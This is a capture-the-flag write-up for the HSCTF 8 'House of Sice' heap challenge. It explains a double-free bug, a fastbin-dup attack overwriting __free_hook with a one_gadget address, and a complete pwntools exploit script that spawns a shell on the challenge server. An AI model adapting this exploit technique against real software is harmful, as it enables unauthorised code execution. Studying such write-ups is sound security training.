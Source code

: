 ​House of Sice was a Heap Challenge from HSCTF 8  (2021).

It use libc-2.31.

executable was compiled with all protections, as you can see

![](https://imgur.com/7A8sAYr.png)

Well you have a menu where you can sell of buy Deets..

Basically you can allocate up to 16 blocs of 8 bytes, and choose their content which is a 64bit value.

One of the bloc can be allocated with calloc instead of malloc.

You can also free the bloc, and here is the vulnerability, there is no check if the bloc has already been freed,

and the bloc pointer in the index table , is not zeroed.  There is no edit function.

So basically it is a double free vulnerability.

The attack we will use is a classic one, called , fastbin dup

explained here:

[https://github.com/shellphish/how2heap/blob/master/glibc_2.31/fastbin_dup.c](http://)

or here:

[https://hackmd.io/@u1f383/Sy_2pqMAP#fastbin_dup](http://)

Basically we allocate 10 blocs, free 7 of them to fill a tcache line,

then we launch the double free attack, we free the bloc 8, then 9, then 8 again.. in this order..

one of the block will be found two times in the fastbin list , as you can see here:

![](https://imgur.com/xc4m2x4.png)

then we allocate two more tcache blocs.

then:

```
addc(libc.symbols['__free_hook'])

addm(0x51)

addm(onegadgets[1])
```

we allocate the double free bloc with calloc to be sure it is taken from fastbins, and set its value to address we want to write to (__free_hook),

it will be take as the fd/next pointer when the bloc will be allocate a second time..

then we allocate a bloc in between, and we reallocate the same bloc , this time malloc will give us a bloc at __free_hook address

we set the value of the last bloc to one onegadget in libc , that will be written to __free_hook

![](https://imgur.com/a07PCKt.png)

then we just called free on the bloc, which will call our onegadget...and we got SHELL !


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
context.log_level = 'info'

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./house_of_sice')
libc = ELF('./libc-2.31.so')

host = args.HOST or 'house-of-sice.hsc.tf'
port = int(args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
source ~/gdb.plugins/gef/gef.py
continue
'''.format(**locals())

#===========================================================

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

io = start()

io.recvuntil('deet: ', drop=True)
libc.address = int(io.recvuntil('\n', drop=True),16) - libc.symbols['system']
print('libc base = {:#x}'.format(libc.address))

onegadgets = one_gadget('libc.so.6', libc.address)

def addm(val):
  io.sendlineafter('> ', '1')
  io.sendlineafter('> ', '1')
  io.sendlineafter('> ', str(val))

def addc(val):
  io.sendlineafter('> ', '1')
  io.sendlineafter('> ', '2')
  io.sendlineafter('> ', str(val))

def free(idx):
  io.sendlineafter('> ', '2')
  io.sendlineafter('> ', str(idx))

for i in range(7):
 addm(0x41+i)

addm(0x48)
addm(0x49)
addm(0x4a)

for i in range(7): 
 free(i)

free(8)
free(9)
free(8)

addm(0x50)
addm(0x50)

addc(libc.symbols['__free_hook'])
addm(0x51)
addm(onegadgets[1])

pause()
free(0)

io.interactive()

```

*Nobodyisnobody,  still pwning things....*


